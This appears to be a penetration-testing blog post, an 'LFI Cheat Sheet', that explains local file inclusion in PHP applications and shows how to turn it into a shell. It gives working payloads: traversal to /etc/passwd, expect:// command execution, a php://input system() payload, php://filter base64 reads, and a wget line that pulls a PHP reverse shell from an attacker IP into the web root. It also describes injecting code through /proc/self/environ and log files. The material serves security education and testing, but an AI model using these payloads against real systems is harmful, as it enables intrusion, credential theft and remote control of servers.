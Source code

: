 ```yaml
---
layout: blog_item
title: "LFI Cheat Sheet"
date:   2024-05-26 11:29:10
author: Dhruv Ambaliya
description: 'LFI Explained and the techniques to leverage a shell from a local file inclusion vulnerability. How to get a shell from LFI'
categories: [cheat-sheet]
tags:
- LFI
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is an LFI Vulnerability?

LFI stands for **Local File Includes** - it's a file local inclusion vulnerability that allows an attacker to include files that exist on the target web server. Typically this is exploited by abusing dynamic file inclusion mechanisms that don't sanitize user input.

<!--more-->
Scripts that take filenames as parameters without sanitizing the user input are good candidates for LFI vulnerabilities, a good example would be the following PHP script <code>foo.php?file=image.jpg</code> which takes <code>image.jpg</code> as a parameter.  An attacker would simply replace <code>image.jpg</code> and insert a payload. Normally a directory traversal payload is used that escapes the script directory and traverses the filesystem directory structure, exposing sensitive files such as <code>foo.php?file=../../../../../../../etc/passwd</code> or sensitive files within the web application itself. Exposing sensitive information or configuration files containing SQL usernames and passwords.

Note: In some cases, depending on the nature of the LFI vulnerability it's possible to run system executables.

## How to get a Shell from LFI

Below are some techniques I've used in the past to gain a shell on systems with vulnerable LFI scripts exposed.

<hr>

### Path Traversal aka Directory Traversal

As mentioned above Traverse the filesystem directory structure to disclose sensitive information about the system that can help you gain a shell, usernames / passwords etc.

<hr>

### PHP Wrapper expect:// LFI

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

{% highlight bash%}
http://127.0.0.1/fileincl/example1.php?page=expect://ls
{% endhighlight %}


Below is the error received if the PHP expect wrapper is disabled:  

{% highlight php %}
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
{% endhighlight %}

<hr>

### PHP Wrapper php://file

Another PHP wrapper, <code>php://input</code> your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.  

![LFI php://file hackbar](/img/blog/web-for-penetration-testers/lfi-php-file-hackbar-pentesters-labs.png)

Example:
{% highlight bash %}
http://192.168.183.128/fileincl/example1.php?page=php://input
{% endhighlight %}

Post Data payload, try something simple to start with like: <code><? system('uname -a');?></code>

Then try and download a [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) from your attacking machine using:

{% highlight bash %}
<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>
{% endhighlight %}


After uploading execute the reverse shell at <code>http://192.168.183.129/shell.php</code>

<hr>

### PHP Wrapper php://filter

Another PHP wrapper, <code>php://filter</code> in this example the output is encoded using base64, so you'll need to decode the output.

{% highlight bash %}
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
{% endhighlight %}

<hr>

### /proc/self/environ LFI Method

If it's possible to include <code>/proc/self/environ</code> from your vulnerable LFI script, then code execution can be leveraged by manipulating the <code>User Agent</code> parameter with Burp. After the PHP code has been introduced <code>/proc/self/environ</code> can be executed via your vulnerable LFI script.

<hr>

### /proc/self/fd/ LFI Method

Similar to the previous <code>/proc/self/environ</code> method, it's possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the <code>referer</code>.

This method is a little tricky as the proc file that contains the Apache error log information changes under <code>/proc/self/fd/</code> e.g. <code>/proc/self/fd/2</code>, <code>/proc/self/fd/10</code> etc. I'd recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB's [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

<hr>

## fimap LFI Pen Testing Tool

fimap is a tool used on pen tests that automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as <code>/proc/self/environ</code>. Another tool commonly used by pen testes to automate LFI discovery is Kali's dotdotpwn, which works in a similar way.  

<hr>

### fimap + phpinfo() Exploit

Fimap exploits PHP's temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it's usually possible to get a shell, if you don't know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.


Enjoy.
